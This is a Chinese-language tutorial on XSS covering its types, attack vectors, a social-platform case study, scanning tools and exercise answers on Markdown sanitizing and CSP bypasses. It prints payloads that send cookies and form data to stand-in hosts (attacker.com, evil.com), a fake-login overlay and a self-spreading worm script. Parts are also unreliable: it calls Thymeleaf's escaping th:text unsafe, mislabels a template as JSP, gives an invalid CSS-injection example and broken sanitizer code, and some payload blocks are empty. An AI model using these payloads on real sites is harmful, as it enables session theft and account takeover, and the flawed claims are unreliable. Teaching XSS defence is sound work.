




2019 年 8 月，某知名社交平台遭遇了一次 XSS 漏洞利用攻击。攻击者通过私信发送恶意链接，用户点击后，攻击脚本会窃取其 session token，并自动向更多用户发送包含相同恶意链接的私信。短短两小时内，超过 10 万用户受到影响。

这并非孤例。XSS（Cross-Site Scripting，跨站脚本攻击）自 1999 年被首次公开讨论以来，始终是 Web 应用安全中最常见、危害最大的漏洞类型之一。根据 OWASP 的统计，XSS 在 Web 应用漏洞中的检出率从未跌出前十。更危险的是，XSS 的利用门槛极低——只需要一个浏览器和一点 JavaScript 知识——但造成的危害却可能极其严重。

## 一、XSS 的原理

### 1.1 本质：用户输入被当作代码执行

XSS 的核心原理是**应用程序将用户输入的内容未经适当处理就输出到网页中，浏览器将其当作 JavaScript 代码执行**。

与 SQL 注入针对服务端数据库不同，XSS 针对的是客户端浏览器。攻击者通过注入恶意脚本，可以：

- 窃取用户 Cookie 和 Session
- 劫持用户身份
- 注入恶意内容
- 实施钓鱼攻击
- 记录键盘输入
- 执行任意操作

### 1.2 XSS 攻击的三个角色



## 二、XSS 的三种类型

XSS 根据攻击方式可以分为三类：反射型、存储型和 DOM 型。



### 2.1 反射型 XSS（Non-Persistent）

**特点**：恶意脚本作为用户请求的一部分，服务器立即「反射」回响应，用户访问时脚本执行。

**典型场景**：搜索功能

```java title="漏洞代码示例"
@RestController
public class SearchController {
    
    @GetMapping("/search")
    public String search(@RequestParam String keyword, Model model) {
        model.addAttribute("keyword", keyword);
        return "search-results";
    }
}
```

```html title="Thymeleaf 模板（不安全）"
<!-- search-results.html -->
<h2>搜索结果: <span th:text="${keyword}"></span></h2>
```

当用户访问 `/search?keyword=<script>alert('XSS')</script>` 时，脚本被执行。

**攻击流程**：



### 2.2 存储型 XSS（Persistent）

**特点**：恶意脚本被永久存储在服务器端（数据库、评论、用户资料），所有访问该数据的用户都会执行脚本。

**危害最大**：因为恶意脚本是持久化的，**无需用户点击任何链接**，只要访问页面就会中招**。

**典型场景**：用户评论、论坛帖子、个人简介

```java title="漏洞代码示例"
@RestController
public class CommentController {
    
    @PostMapping("/comment/add")
    public String addComment(@RequestParam String content) {
        Comment comment = new Comment();
        comment.setContent(content);  // 直接存储用户输入
        commentRepository.save(comment);
        return "redirect:/comments";
    }
}
```

```html title="JSP 模板（不安全）"
<!-- 显示评论列表 -->
<div class="comment">
    <p th:text="${comment.content}"></p>
</div>
```

当攻击者提交 `<script>fetch('http://attacker.com?c='+document.cookie)</script>` 作为评论后，**所有查看该评论的用户都会执行这段脚本**。

**真实危害场景**：

```javascript title="存储型 XSS 恶意脚本示例"
// 窃取用户 Cookie
var img = new Image();
img.src = 'http://attacker.com/log?cookie=' + encodeURIComponent(document.cookie);

// 窃取表单数据
document.querySelectorAll('input').forEach(input => {
    fetch('http://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({
            name: input.name,
            value: input.value
        })
    });
});

// 篡改页面内容
document.querySelector('.price').textContent = '$1.00';

// 注入虚假登录框
document.body.innerHTML += '<div class="fake-login">请重新登录：<input type="password"></div>';
```

### 2.3 DOM 型 XSS（DOM-based）

**特点**：恶意脚本完全在客户端执行，不涉及服务端。漏洞存在于 JavaScript 代码本身，从 URL 参数或页面元素中读取数据后直接写入 DOM。

**特殊点**：服务端日志和 WAF 都无法检测到这种攻击，因为攻击载荷从未到达服务端。

```java title="漏洞代码示例（看似安全）"
@RestController
public class PageController {
    
    @GetMapping("/welcome")
    public String welcome(Model model) {
        // 服务端没有接收任何用户输入
        model.addAttribute("page", "welcome");
        return "welcome";
    }
}
```

```html title="前端 JavaScript（不安全）"
<!-- welcome.html -->
<script>
    // 从 URL 参数读取用户名
    const params = new URLSearchParams(window.location.search);
    const username = params.get('name');
    
    // 直接写入 DOM，无任何转义
    document.getElementById('welcome').innerHTML = 
        'Welcome, ' + username;  // XSS!
</script>

<div id="welcome"></div>
```

攻击者发送链接 `/welcome?name=`，用户访问后脚本执行。

**DOM XSS 与传统 XSS 的区别**：

| 维度 | 传统 XSS（反射/存储） | DOM XSS |
|------|----------------------|---------|
| 攻击载荷位置 | 服务端响应 | 客户端代码 |
| 服务端日志 | 可记录攻击请求 | 无法记录 |
| WAF 检测 | 可检测 | 无法检测 |
| 防护位置 | 服务端 | 客户端 JavaScript |

## 三、XSS 的危害

### 3.1 危害等级分类

| 危害类型 | 严重程度 | 说明 |
|----------|----------|------|
| Session 劫持 | **高** | 窃取 Cookie，冒充用户身份 |
| 账户接管 | **高** | 获取足够权限后修改密码、绑定手机 |
| 敏感数据窃取 | **高** | 窃取表单数据、信用卡信息 |
| 页面篡改 | **中** | 修改页面内容，植入虚假信息 |
| 钓鱼攻击 | **中** | 注入虚假登录框，窃取凭证 |
| 恶意软件分发 | **中** | 重定向到恶意网站 |
| 键盘记录 | **中** | 记录用户键盘输入 |
| 拒绝服务 | **低** | 执行大量计算或请求 |

### 3.2 Session 劫持的完整攻击链



## 四、XSS 攻击向量

### 4.1 基本 script 标签

```html
<script>alert('XSS')</script>
```

### 4.2 事件处理器

HTML 标签支持大量事件处理器，攻击者可以利用这些执行 JavaScript：

```html

<body onload="alert('XSS')">
<input onfocus="alert('XSS')" autofocus>
<svg onload="alert('XSS')">
<a href="javascript:alert('XSS')">click</a>
```

### 4.3 SVG 注入

SVG 标签可以包含 JavaScript：

```html
<svg><script>alert('XSS')</script></svg>
<svg><animate onbegin="alert('XSS')" attributeName="x" dur="1s" to="0"/></svg>
```

### 4.4 HTML5 新标签

```html
<video><source onerror="alert('XSS')">
<audio src=x onerror="alert('XSS')">
<meter onmouseover="alert('XSS')">0</meter>
<details open ontoggle="alert('XSS')">
```

### 4.5 编码绕过

攻击者经常使用编码绕过过滤：

```html
<!-- URL 编码 -->


<!-- Unicode 编码 -->
<script>\u0061lert('XSS')</script>

<!-- 混合编码 -->

```

## 五、真实案例：社交平台的存储型 XSS

### 5.1 漏洞发现

安全研究员在分析某社交平台时发现，用户个人简介字段存在存储型 XSS。攻击者可以在个人简介中嵌入恶意脚本。

### 5.2 漏洞验证

攻击者设置个人简介为：

```html
<script>
    // 窃取访问者信息
    fetch('https://evil.com/log?' + document.cookie + '&url=' + location.href);
</script>
```

当其他用户访问该攻击者主页时，恶意脚本自动执行。

### 5.3 扩展攻击

更高级的攻击者还利用了「自我传播」机制：

```javascript title="蠕虫式 XSS"
// 好友列表获取
async function spread() {
    // 获取好友列表 API（如果有 XSS，可能已经窃取了 session）
    const friends = await fetch('/api/friends').then(r => r.json());
    
    // 遍历好友，发送包含恶意链接的消息
    for (const friend of friends) {
        await fetch('/api/message', {
            method: 'POST',
            body: JSON.stringify({
                to: friend.id,
                content: '看看这个有趣的视频: ' + location.href
            })
        });
    }
}

spread();
```

### 5.4 防御措施

该平台后来实施了以下防御：

1. **输入验证**：限制允许的 HTML 标签和属性
2. **输出编码**：对所有用户输入进行 HTML 编码
3. **CSP 策略**：部署严格的 Content-Security-Policy
4. **HttpOnly Cookie**：标记敏感 Cookie 不可被 JavaScript 访问

:::warning 真实教训
这个案例的教训是：
1. 任何用户输入都可能成为 XSS 注入点，包括看似「安全」的字段
2. 存储型 XSS 的危害远超反射型，因为它会「自动传播」
3. 即使是知名互联网公司，也可能存在 XSS 漏洞——安全需要持续投入
:::

## 六、XSS 检测工具

### 6.1 自动化扫描工具

| 工具 | 类型 | 特点 |
|------|------|------|
| OWASP ZAP | DAST | 免费、开源、支持自动扫描 |
| Burp Suite | DAST | 行业标准，功能强大 |
| Acunetix | DAST | 商业工具，自动检测 |
| Nuclei | DAST | 开源模板化扫描 |
| XSStrike | 专项 | 专门针对 XSS 的扫描工具 |

### 6.2 手动测试清单

- [ ] 测试所有输入点（参数、Header、Cookie）
- [ ] 测试所有输出点（HTML、JavaScript、CSS、URL）
- [ ] 尝试各种编码方式
- [ ] 测试过滤器的绕过方法
- [ ] 检查富文本编辑器输出

```bash title="XSStrike 使用示例"
# 基本扫描
python xsstrike.py -u "https://target.com/search?q=test"

# 批量扫描
python xsstrike.py -l target-list.txt

# 盲打 XSS（配合 DNS 通道）
python xsstrike.py -u "https://target.com/feedback" --blind
```

## 思考题

**问题 1**：某电商网站的用户评论功能允许用户提交 Markdown 格式的评论，系统将 Markdown 转换为 HTML 后显示。请分析可能存在的 XSS 风险，以及如何防护？

<details>
<summary>参考答案</summary>

**风险分析**：

Markdown 转换为 HTML 的过程中，可能存在以下 XSS 向量：

1. **HTML 标签注入**：
   ```markdown
   <script>alert('XSS')</script>
   ```

2. **图片事件注入**：
   ```markdown
   )
   ```

3. **链接协议注入**：
   ```markdown
   [click](javascript:alert('XSS'))
   ```

4. **样式表注入**：
   ```markdown
   <style>@import url('http://evil.com/xss.css')</style>
   ```

5. **DOMPurify 绕过**（如果使用了但不正确）：
   ```markdown
   <math><mtext><table><mglyph><style>//先绕过
   ```

**防护方案**：

1. **使用安全的 Markdown 解析器**：
   - 解析前禁用脚本执行
   - 使用 DOMPurify 二次净化

2. **白名单 HTML 标签**：
   - 只允许 `p`, `strong`, `em`, `a`, `img`, `code`, `blockquote` 等安全标签
   - 禁止 `<script>`, `<style>`, `<iframe>`, `<object>`, `<embed>`

3. **属性白名单**：
   - 只允许 `href`（且必须是 `http://` 或 `https://`）
   - 只允许 `src`（且必须是图片域名）
   - 禁止 `on*` 事件处理器

4. **输出编码**：
   - 对 Markdown 内容进行 HTML 编码
   - 特别注意 `&`, `<`, `>`, `"`, `'` 这几个字符

5. **CSP 策略**：
   ```
   Content-Security-Policy: default-src 'self'; img-src 'self' cdn.example.com;
   ```

**推荐实现**：

```java
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

// 定义安全的 HTML 策略
public class MarkdownSanitizer {
    
    private static final PolicyFactory POLICY = 
        new HtmlPolicyBuilder()
            .allowElements("p", "br", "strong", "em", "b", "i", "code", 
                          "pre", "blockquote", "ul", "ol", "li", "a", "img", "h1", "h2", "h3")
            .allowAttributes("href").onElements("a")
            .allowAttributes("src", "alt", "title").onElements("img")
            .allowUrlProtocols("http", "https")
            .allowAttributes("class").onElements("p", "li", "code", "pre")
            // 禁止所有事件处理器
            .toFactory();
    
    /**
     * 清理用户提交的 Markdown 转换后的 HTML
     */
    public static String sanitize(String html) {
        // 先解析 Markdown
        String markdownHtml = markdownParser.parse(html);
        
        // 再进行 HTML 净化
        return POLICY.sanitize(markdownHtml);
    }
}
```
</details>

**问题 2**：某公司已经部署了严格的 CSP（Content-Security-Policy），禁止内联脚本（`script-src 'self'`）。在这种环境下，存储型 XSS 是否仍然危险？请分析 CSP 的绕过方法和应对措施。

<details>
<summary>参考答案</summary>

**CSP 对 XSS 的防护效果**：

CSP 可以显著降低 XSS 的危害，但并非万无一失。即使有严格 CSP，存储型 XSS 仍然可能造成严重危害。

**CSP 无法防护的场景**：

1. **HTML 注入型 XSS**（不依赖脚本）：
   ```html
   <!-- 即使无法执行脚本，仍然可以篡改页面 -->
   <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
     <h1>此网站已被入侵，请联系 XXX</h1>
   </div>
   ```

2. **CSS 注入窃取数据**：
   ```css
   /* 通过 CSS 选择器窃取数据 */
   input[name="password"] {
       background-image: url("http://evil.com/steal?p=" + input.value);
   }
   ```

3. **点击劫持（CSP 无法防护）**：
   ```html
   <style>
       body { opacity: 0.01; }
       button { position: relative; top: 200px; }
   </style>
   <button onclick="doSomething()">Click me</button>
   ```

4. **DOM clobbering**：
   ```html
   <form id="config">
     <input id="apiUrl" value="http://evil.com/api">
   </form>
   <script>
       // 如果代码使用 config.apiUrl，攻击者可以利用
       console.log(config.apiUrl.value); // http://evil.com/api
   </script>
   ```

5. **CSP 绕过方法**：

   - **`nonce` 或 `hash` 误用**：
     如果 CSP 配置为 `script-src 'nonce-xxx'`，但页面某处意外将 nonce 值泄露到 URL 或日志中，攻击者可以配合 XSS 使用。
     
   - **JSONP 端点**：
     如果允许 `script-src 'self'`，但页面加载了 JSONP 接口，该接口可能被滥用执行脚本：
     ```javascript
     // 恶意 JSONP 响应
     callback("<script>alert('XSS')</script>");
     ```

   - **宽松的 CSP 配置**：
     ```http
     Content-Security-Policy: script-src 'self' 'unsafe-eval' https://trusted-cdn.com
     ```
     `'unsafe-eval'` 允许 `eval()` 执行动态代码，`trusted-cdn.com` 如果存在 XSS，也会导致 CSP 被绕过。

**应对措施**：

1. **CSP 与其他防护的组合**：
   - 输入验证 + 输出编码（根本防护）
   - CSP（纵深防御）
   - HttpOnly Cookie（防止 JavaScript 访问）
   - SameSite Cookie（防止 CSRF 配合 XSS）

2. **强化 CSP 配置**：
   ```
   Content-Security-Policy: 
     default-src 'self';
     script-src 'self';
     object-src 'none';
     base-uri 'self';
     form-action 'self';
     frame-ancestors 'none';
     upgrade-insecure-requests;
   ```

3. **禁止内联样式**（防止 CSS 注入）：
   ```
   Content-Security-Policy:
     style-src 'self' 'nonce-{random}';
   ```

4. **定期安全测试**：
   - 即使有 CSP，也要定期进行 XSS 渗透测试
   - 测试 CSP 配置的健壮性

**结论**：CSP 是重要的纵深防御措施，但不应被视为 XSS 的终极解决方案。根本防护仍然依赖于**正确的输入验证和输出编码**。
</details>
